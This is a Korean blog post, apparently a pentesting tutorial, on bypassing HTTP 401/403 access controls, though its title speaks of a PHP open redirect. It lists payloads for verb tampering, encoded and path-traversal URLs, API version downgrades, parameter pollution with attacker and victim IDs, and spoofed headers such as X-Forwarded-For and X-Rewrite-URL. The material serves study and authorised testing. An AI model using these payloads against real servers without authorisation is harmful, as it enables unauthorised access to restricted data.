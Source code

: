 ```yaml
---
layout: single
title: Open redirect (redirect for PHP header() vulnerability)
categories: Web-vuln
tag: [php, function, redirect, open redirect]
toc: true
author_profile: false
---
```


## HTTP 상태코드 401&403
> 특정 페이지들을 살펴보다 보면, HTTP 상태코드로 401 또는 403으로 반환되는 경우가 종종 있다.  이 두 종류의 코드는 무엇일까?

### 401 Unauthorized
> HTTP 표준에서 Unatuhorized(미승인)으로 명시하고 있지만 해당 응답의 경우 비 인증을 의미할 수 있다. 즉  클라이언트 측에서 요청을 보내게 되면, 서버로 부터의 응답을 받기 위해 인증이 이루어져야 한다는 것이다.

### 403 Forbidden
> 흔히 볼 수 있는 응답코드로 권한과 관련되어있다. 해당 요청 클라이언트가 요청한 콘텐츠에 접근할 권한을 가지고 있지 않음을 나타낸다. 서버측에서 해당 클라이언트의 접근을 거부한다는 것이다.

# Bypass 401&403

HTTP 상태코드인 401과 403은 웹 사이트 정찰 과정에서 정말 많이 만나게된다.
<br>
이러한 상태코드를 우회할 수 있는 방법은 여러가지가 존재하며, 해당 상태 코드를 만나게 되었을 때
<br>
한번쯤 시도해볼만 하다.
1. **HTTP Method 변경**  : (GET, POST, PUT, DELETE) 등과 같은 Method를 사용하여 접근을 시도해볼 수 있다.
2. **URL 인코딩 변경** : 요청 URL을 인코등 혹인 더블 인코딩 또는 유니코드 인코딩을 통해 우회 시도를 해볼 수 있다.
3. **Path Traversal** : ‘./’ 과 같은 경로조작을 통해 우회 시도를 해볼 수 있다.
4. **대소문자 변경** : 대소문자를 구별하지 않을 수 있으니, 대소문자 변경을 통해 우회 시도를 해볼 수 있다.
5. **HTTP Header 조작** : x-Forwarded, referer 와 같은 헤더를 통해 서버를 속여 우회 시도를 해볼 수 있다.
6. **URL Fragment 삽입** : URL 끝단에 Fragment를 삽입함으로써 우회를 시도해볼 수 있다.

## 1. HTTP Method 변경
HTTP 요청 Requests에는 여러 종류의 Method가 존재한다. 이를 다양하게 변경하여 요청하는것도 좋은 테스팅 방법일 수 있다.
<br>
POST 요청에서 사용되는 방식을 GET 형식으로 파라미터를 통해 요청이 가능하다.

```
methods:
    - GET
    - HEAD
    - POST
    - PUT
    - DELETE
    - CONNECT
    - OPTIONS
    - TRACE
    - PATCH

GET /admindirectory/ HTTP/1.1
POST /admindirectory/ HTTP/1.1
PUT /admindirectory/ HTTP/1.1
HEAD /admindirectory/ HTTP/1.1
```
> 추가적으로 User-Agent를 조작하여서도 우회가 가능하다.

웹 브라우저에 access 할 때 사용하는 브라우저/OS 등에 따라 제공하는 서비스가 다를 수 있다.

## 2. URL 인코딩 변경
> .. 와같은 문자들을 여러 종류의 인코딩 방법으로 우회가 가능하다.

```
Original: //admin
URL: /%2fadmin
DURL: /%252fadmin
Unicode: /%ef%bc%8fadmin
```

## 3. Path Traversal
> Path Traversal 취약점을 응용하여 401 또는 403 상태코드를 우회할 수 있다.

```
target.com/secret
target.com/%2e/secret
/secret%20
/secret%09
/secret%00
/%90/secret
/%2e/secret
/secret/
/secret/.
//secret//
/./secret
/;/secret
/.;secret
//;//secret
/secret..;/
/secret/..;/
/secret.json
/secret.css
/secret.html
/secret?
/secret??
/secret???
/secret?testparam
/secret#
/secret#test
/...
/..%00
/..%01
/..%0a
/..%0d
/..%09
/~root
/~admin
/%20/
/%2e%2e/
/%252e%252e/
/%c0%af/
/%e0%80%af
site.com/secret/
site.com/secret/.
site.com//secret//
site.com/./secret/..
site.com/;/secret
site.com/.;/secret
site.com//;//secret
site.com/secret.json –> HTTP 200 OK (ruby)
```

## 4. 대소문자 변경

```
Original: /admin
Upper: /ADMIN
```

기타 API 사용할 경우 버전변경을 통해서도 가능하다

```
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
{“id”:111} --> 401 Unauthriozied
{“id”:{“id”:111}} --> 200 OK
{"user_id":"<legit_id>","user_id":"<victims_id>"} (JSON Parameter Pollution)
user_id=ATTACKER_ID&user_id=VICTIM_ID (Parameter Pollution)
```

## #프로토콜 변경을 통해서도 가능하다.

```
protocol_versions:
    - "0.9"
    - "1.0"
    - "1.1"
    - "2"

https://trust.com -> 200 403 or 401
http://trust.com -> 200 ok
```

## 5. HTTP Header 조작
일부 HTTP Header 은 클라이언트의 IP 혹은 HOST 정보를 속일 수 있다.
<br>
예를 들어 IP 주소 필터링에만 의존하는 웹 서버가 존재한다면 X-Forwarded-For 헤더를 사용해서
<br>
손쉽게 우회를 시도해볼 수 있다.

```
사용가능 HTTP 요청 헤더
    - X-Forwarded-For
    - X-Forward-For
    - X-Forwarded-Host
    - X-Forwarded-Proto
    - Forwarded
    - Via
    - X-Real-IP
    - X-Remote-IP
    - X-Remote-Addr
    - X-Trusted-IP
    - X-Requested-By
    - X-Requested-For
    - X-Forwarded-Server
		- Host: localhost
		- X-ProxyUser-I
		- Redirect: http://localhost
    - Referer: http://localhost
    - X-Original-URL
''' 등등
```

## 6. URL Fragment 삽입

```
https://trust.com -> 200 403 or 401
http://trust.com#fragment -> 200 ok
```

## 7. X-Rewirte-URL 헤더를 통한 경로 재지정
> X-Rewrite-URL 헤더를 허용하는 서버가 존재한다면, 접근 제한이 걸린 페이지를 백엔드에서 url을 설정 하여 접근할 수 있다.

```
GET /admin/ HTTP/1.1 -> 403

GET / HTTP/1.1 -> 200 ok
X-Rewrite-URL: /admin/
```

# Referance
- https://www.hahwul.com/2021/10/08/bypass-403/
- https://www.codelivly.com/401-403-bypass-cheatsheet/
- https://www.vidocsecurity.com/blog/401-and-403-bypass-how-to-do-it-right/
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/403-and-401-bypasses